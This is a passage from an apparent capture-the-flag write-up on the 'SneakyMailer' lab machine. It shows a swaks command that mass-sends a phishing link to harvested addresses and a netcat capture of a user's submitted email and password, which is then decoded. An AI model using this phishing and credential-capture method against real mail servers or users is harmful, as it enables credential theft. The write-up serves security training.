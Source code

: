 the reason might be `gavinjoyce@sneakymailer.htb` user has not click our phising email, we can loop the process using email.txt and start the netcat again to capturing the request.

```bash
swaks --to $(cat email.txt | tr '\n' ',' | less) --from bunnys666@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.7/" --server $ip
```

the result show up on netcat

![](/assets/img/sneaky/6.png)

it can be found that the user is executing our phishing, on the output of `netcat` we have the target email and password. 

```html
firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```

we can easily decode that HTML encoding using `burpsuite`

![](/assets/img/sneaky/7.png)

```
^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```
